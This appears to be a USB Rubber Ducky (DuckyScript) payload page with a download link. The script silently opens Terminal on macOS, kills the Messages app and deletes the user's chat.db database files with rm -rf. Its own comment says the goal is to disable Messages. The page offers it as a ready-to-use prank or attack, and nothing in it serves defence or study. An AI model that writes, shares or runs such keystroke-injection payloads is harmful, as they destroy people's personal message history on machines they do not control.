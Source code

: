 [Download Payload](https://duckyubuntu.tk/payload1.txt)

REM Author: Alex Jay
REM This script disables Messages on OS X, the only way to fix messages is to recreate the deleted files via 'touch'
DELAY 800
GUI SPACE
DELAY 200
STRING Terminal
DELAY 100
ENTER
DELAY 200
STRING killall Messages
ENTER
DELAY 200
STRING rm -rf ~/Library/Messages/chat.db; rm -rf ~/Library/Messages/chat.db-shm; rm -rf ~/Library/Messages/chat.db-wal
ENTER